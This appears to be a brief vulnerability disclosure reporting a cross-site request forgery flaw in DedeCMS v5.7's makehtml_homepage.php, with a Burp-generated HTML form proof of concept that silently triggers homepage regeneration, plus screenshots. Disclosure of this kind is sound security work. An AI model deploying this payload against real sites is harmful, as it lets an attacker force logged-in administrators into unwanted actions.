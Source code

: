 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/makehtml_homepage.php
![1](https://github.com/iimiss/cms/assets/136765860/4f30b46c-c637-4eb1-b6cd-f4f99d4319ac)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/makehtml_homepage.php" method="POST">
      <input type="hidden" name="dopost" value="make" />
      <input type="hidden" name="templet" value="default&#47;index&#46;htm" />
      <input type="hidden" name="position" value="&#46;&#46;&#47;index&#46;html" />
      <input type="hidden" name="saveset" value="1" />
      <input type="hidden" name="showmod" value="0" />
      <input type="hidden" name="Submit" value="�&#155;&#180;�&#150;&#176;�&#184;&#187;�&#161;礖TML" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



```
![2](https://github.com/iimiss/cms/assets/136765860/091d8dc7-351d-4b17-b552-7c7629243822)



successed

![3](https://github.com/iimiss/cms/assets/136765860/e0e1e6b4-e7fa-4bbf-babf-7ce7e33f9e19)
